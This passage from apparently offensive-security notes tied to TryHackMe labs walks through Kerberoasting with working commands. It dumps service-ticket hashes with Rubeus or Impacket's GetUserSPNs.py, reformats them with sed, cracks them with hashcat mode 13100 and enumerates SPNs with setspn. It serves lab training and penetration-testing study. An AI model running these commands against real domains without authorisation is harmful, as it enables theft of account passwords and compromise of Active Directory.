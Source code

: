 This will dump the Kerberos hash of any kerberoastable users.

**Victim**

```
Rubeus.exe kerberoast
```

Copy the hashes from the command prompt onto the attacker machine and put it into a .txt file so we can crack it with hashcat. Below command removes all the tabs and formats it properly for hashcat. If you don't format it properly than hashcat will error out.

**Kali**

```
cat hashes.txt | sed 's/[[:space:]]//g' |tr -d '\n' | sed 's/$krb5tgs$23$*/\n&/g'  > hash.txt
hashcat -m 13100 -a 0 hash.txt Pass.txt
```

Hashcat found the passwords for both of the hashes.

```
hashcat -m 13100 -a 0 hash.txt Pass.txt --show
```



### Kerberoasting #2  - Impacket

**Example**

[#kerberoasting-2-impacket](../../walkthroughs/tryhackme/attacking-kerberos.md#kerberoasting-2-impacket "mention")

```
sudo python3.9 /root/test/impacket/examples/GetUserSPNs.py $DOMAINHOSTNAME/$MACHINENAME:$PASSWORD -dc-ip $DCIP -request > hashes.txt
```

Hashes were found for the same two accounts when doing this with Rubeus.

```
hashcat -m 13100 -a 0 hashes.txt Pass.txt
hashcat -m 13100 -a 0 hashes.txt Pass.txt --show
```

## Powershell

**Examples**

[#kerberoasting](../../walkthroughs/tryhackme/corp.md#kerberoasting "mention")

Run the below command from the Administrator account we just got access to.

**Victim(powershell)**

```
setspn -T medin -Q ​ */*
```
